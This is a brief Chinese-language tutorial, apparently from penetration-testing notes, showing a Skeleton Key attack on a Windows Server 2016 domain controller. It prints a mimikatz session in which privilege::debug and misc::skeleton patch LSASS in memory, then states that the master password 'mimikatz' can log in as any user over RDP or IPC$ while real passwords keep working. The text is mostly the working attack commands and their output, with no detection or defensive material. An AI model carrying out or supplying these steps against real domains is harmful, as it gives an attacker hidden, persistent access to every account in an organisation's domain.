

在域管情况下，可以在目标域控的LSASS内存注入特定的密码，就可以使用所设置的密码以任何身份登录，而用户还可以使用之前正常的密码登录。

# 一、Skeleton Key攻击
域控：Windows 2016

```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz #

```

此后可以使用密码mimikatz以任何身份进行RDP登录或者ipc$连接

